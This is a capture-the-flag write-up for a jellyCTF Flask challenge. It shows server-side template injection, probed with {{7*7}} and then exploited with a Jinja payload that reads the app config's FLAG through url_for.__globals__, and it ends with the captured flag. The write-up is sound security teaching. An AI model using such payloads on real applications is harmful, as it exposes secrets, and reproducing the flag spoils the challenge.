



# bro_visited_his_site

## Difficulty

Easy

## Points Earned

343

## Description

> bro stored his secrets in the flask app config
> 
> note: this is not /app/flag.txt - that's bro_visited_his_site_2
> 
> 10 point hint: attack type
> 
> 20 point hint: writeup for similar problem
> 
> Author: arepi
> 
> https://bro-visited-his-site.jellyc.tf/





## Solution

The website takes whatever's in the text box and outputs `[text]pilled [text]maxxer`. We can use double brackets to execute code as well. For example, when I input `{{7*7}}` I get `49pilled 49maxxer`. However I can't access the app config by inputting `{{config}}` because of these lines in the source code:

```python
return render_template_string(f'''
    {}
    {}
    <p>
        {word}pilled {word}maxxer
    </p>
```

I unlocked hint 2 and got a link to this write up: https://ctftime.org/writeup/10895

To access the flag, we can either put `{{url_for.__globals__['current_app'].config['FLAG']}}` into the text box or `https://bro-visited-his-site.jellyc.tf/response?word={{url_for.__globals__['current_app'].config['FLAG']}}` into the address bar.



## Flag

`jellyCTF{f1agp1ll3d_t3mpl4te_1nj3ct10nmaxx3r}`